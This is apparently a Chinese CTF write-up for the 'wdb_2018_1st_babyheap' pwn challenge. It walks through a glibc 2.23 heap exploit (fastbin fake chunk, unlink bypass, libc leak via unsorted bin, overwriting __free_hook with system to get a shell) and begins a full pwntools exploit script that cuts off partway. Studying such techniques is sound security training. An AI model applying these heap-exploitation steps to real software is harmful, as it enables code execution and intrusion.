 接着进行分配,要记得fastbin是FILO的
```
    alloc(6,"aaaa\n")  #chunk0 @index6
    alloc(7,p64(0)+p64(0xa1)+"\n") #fake chunk @index7
```
我们获取到的fake chunk @index7指向 chunk1-0x10,因此对其mem区域进行编辑,便能够编辑到 chunk1的size.

将该fakechunk填充至0x90 大小
```
    alloc(2,"CCCCCCC\n")
    alloc(3,"DDDDDDD\n")
```

最终的任意地址写需要依靠unlink实现,此处开始构造
chunk4 @index4 的prev_size 与 size会被算在fake chunk内,因此我们可以再伪造一个fake chunk.
0x602080即是index4地址

剩下的就是常规绕过unlink检查的操作,
```
    #bypass unlink check
    alloc(4,p64(0)+p64(0x31)+p64(0x602080-0x18)+p64(0x602080-0x10))
    alloc(5,p64(0x30)+p64(0x30)+'\n')
```
释放0xa1大小的fake chunk, 他会被放入unsorted bin中.
回顾, unsorted bin中的`fd`指向`main_arena`, 依此泄露出libc
```
    free(1)
    show(1)
```
同时,我们也触发了unlink,index4(0x602080) 会指向 index1 (0x602080-0x18 = 0x602068)

之后利用edit函数实现任意地址写,改`__free_hook` 为 `system`.
类似地,我们也可以改`__free_hook`为one_gadget
```
    edit(4,p64(free_hook)+"\n")
    edit(1,p64(system)+"\n")

    alloc(8,"/bin/sh\x00"+'\n')
    free(8)
```
完整exp
```
    from pwn import *
    import sys


    if len(sys.argv) >1 and sys.argv[1] == 'r':
        target = remote("node3.buuoj.cn",26070 )
    else:
        #target = process("")
        target=process(["/home/trident/ctfworkspace/glibc/glibc-all-in-one-master/libs/2.23-0ubuntu11.2_amd64/ld-2.23.so","./wdb_2018_1st_babyheap"],env={"LD_PRELOAD":"./libc.so.6"})
        if(len(sys.argv)>1) and sys.argv[1]=='g':
            gdb.attach(target)

    context.log_level='debug'
    #context.update(arch='')
    #gdb.attach(target)
    libC = ELF("./libc.so.6")


    def alloc(index,content):
        target.recvuntil("oice:")
        target.sendline("1")

        target.recvuntil("Index:")
        target.sendline(str(index))
        target.recvuntil("tent:")
```